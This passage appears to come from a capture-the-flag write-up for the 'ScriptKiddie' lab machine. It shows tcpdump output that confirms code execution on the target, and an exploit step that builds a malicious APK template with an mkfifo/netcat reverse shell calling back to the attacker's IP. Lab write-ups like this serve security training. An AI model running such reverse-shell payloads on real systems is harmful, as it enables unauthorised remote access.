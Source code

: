 **POC**:

![image-20240131033025135](./ScriptKiddie.assets/image-20240131033025135.png)

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:18:46.274718 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
13:18:46.274740 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64
13:18:47.276599 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
13:18:47.276614 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 1, seq 2, length 64
13:18:48.295727 IP 10.10.10.226 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
13:18:48.295743 IP 10.10.14.14 > 10.10.10.226: ICMP echo reply, id 1, seq 3, length 64
```

**Exploit**:

1. compile malicious apk template with reverse shell payload
   - nc [x]
   - bash [x]
   - mkfifo [yes]: `payload = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 1234 >/tmp/f"`
